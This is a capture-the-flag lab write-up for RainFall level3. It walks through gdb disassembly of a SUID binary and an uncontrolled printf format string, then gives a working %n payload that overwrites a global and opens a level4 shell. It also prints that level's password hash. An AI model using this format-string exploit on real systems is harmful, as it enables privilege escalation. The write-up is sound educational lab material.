 Login as `level3`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level3
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on :4242
level3@192.168.1.28's password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level31
```
A `SUID` executable is located in the home directory.
```shell
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
Print all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  v
0x0804851a  main
```
`v()` function has a conditional call to `system()` on line `111` with `/bin/sh` as a parameter. Some value stored in `0x804988c` must to be equal to 0x40.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   [...]
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   [...]
End of assembler dump.
(gdb) x 0x804860d
0x804860d:	 "/bin/sh"
```
A bit earlier, `printf()` is called with  without format string. It cause [FSA](https://owasp.org/www-community/attacks/Format_string_attack) aka [UFS](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
Man page of `printf` has a SECURITY CONSIDERATIONS section which says that _%n can be used to write arbitrary data to selected addresses_.

BSS section contains a variable `m` which is declared but have not been assigned a value.
This variable is used while comparing it to 64 in `if` condition.
```gdb
level3@RainFall:~$ objdump -t ./level3
[...]
0804988c g     O .bss	00000004              m
[...]
```
Using `%x` format tokens allows to print data/addresses from the call stack.
```shell
level3@RainFall:~$ ./level3
%08x %08x %08x %08x
00000200 b7fd1ac0 b7ff37d0 78383025
```
An offset at which the `argv` start should be find.
```shell
level3@RainFall:~$ for i in {0..100}; do echo "Offset: $i"; python -c "print 'AAAA' + '%08x '*$i" | ./level3; read; done
Offset: 0
AAAA

Offset: 1
AAAA00000200

Offset: 2
AAAA00000200 b7fd1ac0

Offset: 3
AAAA00000200 b7fd1ac0 b7ff37d0

Offset: 4
AAAA00000200 b7fd1ac0 b7ff37d0 41414141

Offset: 5
AAAA00000200 b7fd1ac0 b7ff37d0 41414141 78383025
```

```shell
level3@RainFall:~$ (python -c "print 'A'*60 + '\x8c\x98\x04\x08%19\$n'"; cat -) | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
